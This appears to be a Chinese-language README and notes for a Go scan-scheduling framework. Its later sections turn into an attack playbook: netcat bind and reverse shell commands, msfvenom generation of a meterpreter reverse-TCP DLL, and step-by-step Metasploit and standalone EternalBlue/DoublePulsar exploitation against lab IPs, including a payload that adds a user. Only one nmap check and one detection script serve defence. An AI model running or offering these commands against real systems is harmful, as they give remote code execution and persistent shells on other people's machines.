

# 项目要求
```go
扫描调度框架，建议实现如下功能:
1、扫描器一键发布（通过提供ssh地址、账号、密码，实现一键发布）
2、任务增、删、改、查，状态监控
3、扫描结果回传、展示（在调度框架上实现初步展示）
4、扫描结果与网络空间测绘平台对接，清洗、入库
```
# 一 整体设计



## 1 通讯逻辑
```go
通讯方式改为了中心节点向worker发送http心跳请求
work节点就是一个http的服务
中心调度系统确实也是可以分布式的
```

## 2 调度逻辑

中心节点遍历任务，抢锁后通过http请求分发任务

# 二 源码相关

## 1 静态资源的打包

所用的包
```go
Go 语言打包静态文件以及如何与Gin一起使用Go-bindata
```

安装方法
```go

go get -u github.com/jteeuwen/go-bindata/...

安装前需要先关闭go mod
go env -w GO111MODULE=off

#通过命令行加入GOBIN的PATH
export PATH=$PATH:$GOPATH/bin
#编辑启动配置文件，开机后自动加载这个路径
nano ~/.bashrc
#编辑完成后，重新加载环境变量到内存
source ~/.bashrc

```

前端修改后打包进go项目
```go
go-bindata -o=core/utils/asset/asset.go -pkg=asset web/crocodile/... sql
```

# 三 项目的安装

数据库是先要新建的   表和数据是通过代码初始化的


#
vscan -host {ip} -p {port} -json -o {res}

 apt install libpcap-dev


kscan -t {ip} -p {port} -oJ {res}


# 脚本
## 主动shell
nc -lvvp 6666 -e /bin/sh   主动shell

nc 192.168.56.132 6666  攻击机联

## udp  通讯
nc -lvvp 6666 -u -e  /bin/sh
nc -u 192.168.56.132 6666 

## 反弹shell
nc 192.168.56.132 4444 -e /bin/bash    被攻击主动的联 132
nc -lp 4444     攻击机可以处理
  


# 代码统计
Language                     files          blank        comment           code
-------------------------------------------------------------------------------
SQL                             33             58            276          25412
Go                             151           3704           2190          21657
CSS                             26              7            378           9945
SVG                              1              0              4           4696
HTML                            17            101             12           2489
JSON                             2              0              0           1546
XML                              2             11              1            990
YAML                             2              0              0            955
INI                              5             98              0            456
JavaScript                      35             67            429            408
Bourne Shell                    16            101             16            364
TOML                             6             26            176            306
Markdown                        10            113              0            278
CSV                              1              0              0             59
make                             1             15              0             50
Protocol Buffers                 1              8              8             34
Dockerfile                       1              2              2              6
D                                2              0              0              2
-------------------------------------------------------------------------------
SUM:                           312           4311           3492          69653


# doub
启动SSH服务
命令为：
/etc/init.d/ssh start

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.133 lport=4444 -f dll -o ~/eternal11.dll


use exploit/windows/smb/eternalblue_doublepulsar


set payload payload/windows/meterpreter/reverse_tcp

set winepath /home/kali/           ----- - Writing DLL in /home/kali/eternal11.dll


  set DOUBLEPULSARPATH  /home/kali/Eternalblue-Doublepulsar-Metasploit-master-master/Eternalblue-Doublepulsar-Metasploit-master/deps

  set ETERNALBLUEPATH /home/kali/Eternalblue-Doublepulsar-Metasploit-master-master/Eternalblue-Doublepulsar-Metasploit-master/deps

set rhost 192.168.56.141

## nmap
nmap -p 445 <target> --script=smb-double-pulsar-backdoor


# 下载对应的MSF插件并复制到目标目录中
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
cd Eternalblue-Doublepulsar-Metasploit/
cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb/

# 安装依赖
dpkg --add-architecture i386 && apt-get update && apt-get install wine32 --fix-missing

# 创建.wine/drive_c目录，否则后续利用漏洞时会出现目录不存在错误
mkdir -p /root/.wine/drive_c

# 开启MSF并重新加载插件
msfconsole
reload_all

# 漏洞利用
use exploit/windows/smb/eternalblue_doublepulsar
set rhost 192.168.200.142
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.200.130
set PROCESSINJECT explorer.exe # 注意，需要设置PROCESSINJECT，使用默认值并没成功，改PROCESSINJECT为explorer.exe成功
run


###

第一步：
D:\Desktop\Win-RCE-eternalblue_and_eternalromantic>
D:\Desktop\Win-RCE-eternalblue_and_eternalromantic\eb.exe --targetip 192.168.56.141
数据包：eb.pcap

第二步：
D:\Desktop\Win-RCE-eternalblue_and_eternalromantic>D:\Desktop\Win-RCE-eternalblue_and_eternalromantic\dp.exe --TargetIp 192.168.56.141 --Function RunDLL --DllPayload D:\Desktop\Win-RCE-eternalblue_and_eternalromantic\useradd64.dll
数据包：dp.pcap

第三步：检测
C:\Users\Administrator>python D:\Desktop\doublepulsar-detection-script-master\detect_doublepulsar_smb.py --ip 192.168.56.141
数据包：detect.pcap


## 我的本机

.\eb.exe --targetip 192.168.56.141
 .\dp.exe --TargetIp 192.168.56.141 --Function RunDLL --DllPayload useradd64.dll
python2 .\detect_doublepulsar_smb.py --ip 192.168.56.141